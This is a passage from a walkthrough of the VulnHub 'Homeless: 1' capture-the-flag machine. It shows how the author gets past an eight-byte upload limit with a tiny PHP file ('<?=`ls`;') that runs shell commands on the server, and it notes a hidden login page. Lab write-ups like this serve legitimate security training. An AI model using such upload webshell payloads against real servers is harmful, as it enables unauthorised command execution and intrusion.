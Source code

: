 ```php
            echo "File uploaded. Find the secret file on server .. " . $path;
        }
    }
?>
```

### PHP Tags and Execution Operators

Gathering the restrictions from above, the challenge now is to write a short and valid PHP code of no more than eight bytes. PHP supports [short open tag][5] (<tt><?=</tt>) and [execution operators][6] (<tt>\`&hellip;\`</tt>). Using these two short forms, I'm able to squeeze in eight bytes of valid PHP code to list the files in `/myuploader_priv/files` like so.

```shell
echo -n '<?=`ls`;' > test.php
```

![screenshot-6](/assets/images/posts/homeless-1-walkthrough/screenshot-6.png)

![screenshot-7](/assets/images/posts/homeless-1-walkthrough/screenshot-7.png)

![screenshot-8](/assets/images/posts/homeless-1-walkthrough/screenshot-8.png)

### Secure Login Page

There's a Secure Login page at `/d5fa314e8577e3a7b8534a014b4dcb221de823ad`.


[1]: https://www.vulnhub.com/entry/homeless-1,215/
[2]: http://www.creatigon.com/
[3]: https://www.vulnhub.com
[4]: https://www.gnu.org/software/parallel/
[5]: http://php.net/manual/en/language.basic-syntax.phptags.php
[6]: http://php.net/manual/en/language.operators.execution.php
[7]: https://sfrolov.io/2016/09/multiple-md5-collisions
[8]: https://en.wikipedia.org/wiki/Percent-encoding